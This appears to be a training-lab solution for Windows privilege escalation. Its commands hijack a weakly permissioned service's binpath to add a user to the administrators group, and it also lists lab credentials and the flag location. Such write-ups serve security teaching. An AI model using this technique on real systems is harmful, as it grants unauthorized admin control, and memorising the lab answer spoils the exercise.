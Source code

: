 ## 🎯 HTB Academy Lab Solution

### Lab Environment
- **Credentials**: `htb-student:HTB_@cademy_stdnt!`
- **Access Method**: RDP
- **Objective**: Escalate privileges using weak permissions
- **Flag Location**: `C:\Users\Administrator\Desktop\WeakPerms\flag.txt`

### Complete Walkthrough
```cmd
# 1. RDP connect and enumerate services
.\SharpUp.exe audit

# 2. Check for weak service permissions
accesschk.exe /accepteula -quvcw [SERVICE_NAME]

# 3. Identify exploitable service (e.g., WindscribeService)
sc config WindscribeService binpath="cmd /c net localgroup administrators htb-student /add"

# 4. Execute privilege escalation
sc stop WindscribeService
sc start WindscribeService

# 5. Verify admin access
net localgroup administrators

# 6. Access flag as administrator
type C:\Users\Administrator\Desktop\WeakPerms\flag.txt

# 7. Clean up (optional)
sc config WindscribeService binpath="[ORIGINAL_PATH]"
net localgroup administrators htb-student /delete
```

## 🔄 Alternative Techniques

### PowerShell Service Enumeration
```powershell
# Get services with weak permissions
Get-WmiObject win32_service | Select-Object Name, DisplayName, PathName, StartMode | Where-Object {$_.StartMode -eq "Auto"}
```

### Manual Permission Checks
```cmd
# Check file permissions
icacls "C:\Program Files\Application\service.exe"

# Check service permissions
sc sdshow [SERVICE_NAME]

# Check registry permissions
reg query HKLM\System\CurrentControlSet\Services\[SERVICE] /s
```
